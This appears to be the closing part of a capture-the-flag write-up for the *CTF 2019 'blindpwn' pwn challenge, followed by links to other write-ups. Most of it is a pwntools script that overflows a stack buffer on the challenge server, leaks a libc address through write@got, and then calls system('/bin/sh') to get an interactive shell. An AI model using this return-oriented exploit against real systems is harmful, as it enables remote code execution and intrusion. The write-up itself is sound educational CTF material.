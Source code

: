 ```python
# start attack
p = remote('34.92.37.22', 10000)
write_plt = 0x400520
write_got = 0x601018
payload = 'A' * offset + p64(pop_rdi_ret) + p64(1) + p64(pop_rsi_r15_ret) + p64(write_got) + p64(0) + p64(write_plt) + p64(main)
p.sendafter('pwn!\n', payload)
write = u64(p.recvuntil('\x7f').ljust(8, '\x00'))
success('write = ' + hex(write))
libc_base = write - 0x0f72b0
success('libc_base = ' + hex(libc_base))
# get shell
system = libc_base + 0x045390
str_bin_sh = libc_base + 0x18cd57
payload = 'A' * offset + p64(pop_rdi_ret) + p64(str_bin_sh) + p64(system)
p.sendafter('pwn!\n', payload)
p.interactive()
```

# References

https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/medium-rop/#_12
https://n132.github.io/2019/04/29/2019-04-29-Starctf2019-Blindpwn/
http://shift-crops.hatenablog.com/entry/2019/04/30/131154#blindpwn-Pwn-303pt-47-solves
https://balsn.tw/ctf_writeup/20190427-*ctf/#blindpwn
https://github.com/sixstars/starctf2019/blob/master/pwn-blindpwn
